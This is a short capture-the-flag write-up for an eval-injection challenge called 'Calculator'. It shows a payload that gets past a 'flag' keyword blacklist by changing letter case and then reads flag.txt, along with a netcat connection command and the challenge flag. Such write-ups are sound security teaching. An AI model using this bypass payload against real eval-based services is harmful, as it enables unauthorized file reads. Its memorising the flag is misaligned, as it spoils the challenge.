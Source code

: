 # Calculator
Author: [Marin Radu](https://github.com/ChronosPK)

<br>

## Description
```
Exploit an eval injection vulnerability by bypassing blacklists to read flag.txt.
```

<br>

## Requirements
- Eval injection
- Blacklist bypass

<br>

## Solve
Bypass the server's blacklist checks for the `flag` keyword by manipulating string cases or using alternative expressions. 
Connect to the server using `netcat`, and then craft a payload that reads `flag.txt` without triggering the blacklist:

```python
# Sample Payload
open("FLAG.txt".lower()).read()
```

Execute this payload by sending it to the server after connecting with `netcat`:
```bash
nc chal.chronossec.site 30020
```

<br>

> Flag: `CSCTF{well_d0ne_kidd0}`